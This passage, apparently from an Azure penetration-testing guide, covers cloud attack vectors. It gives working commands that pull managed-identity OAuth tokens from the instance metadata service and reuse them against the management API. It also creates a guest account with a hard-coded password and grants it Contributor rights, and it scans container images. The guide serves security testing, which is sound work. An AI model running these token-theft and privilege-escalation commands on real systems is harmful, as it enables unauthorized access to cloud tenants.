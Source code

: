 ## 8. Cloud-Specific Attack Vectors

### 8.1 Metadata Service Exploitation

#### Instance Metadata Service (IMDS) Testing
```bash
# Azure Instance Metadata Service
curl -s -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
curl -s -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# Managed Identity token abuse
ACCESS_TOKEN=$(curl -s -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq -r .access_token)

curl -H "Authorization: Bearer $ACCESS_TOKEN" "https://management.azure.com/subscriptions?api-version=2020-01-01"
```

### 8.2 Cross-Tenant Attacks

#### Tenant Isolation Testing
```bash
# Cross-tenant resource access
az login --tenant tenant-a-id
az account set --subscription subscription-in-tenant-b

# Guest user privilege escalation
az ad user create --display-name "Guest User" --password "TempPassword123" --user-principal-name guest@external-domain.com
az role assignment create --assignee guest@external-domain.com --role "Contributor"
```

### 8.3 Supply Chain Attacks

#### Container Image Security
```bash
# Container registry security
az acr login --name myregistry
docker pull myregistry.azurecr.io/app:latest

# Image vulnerability scanning
trivy image myregistry.azurecr.io/app:latest
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock anchore/grype myregistry.azurecr.io/app:latest
```

## 9. Azure DevOps Security Testing

### 9.1 Azure DevOps Pipeline Security
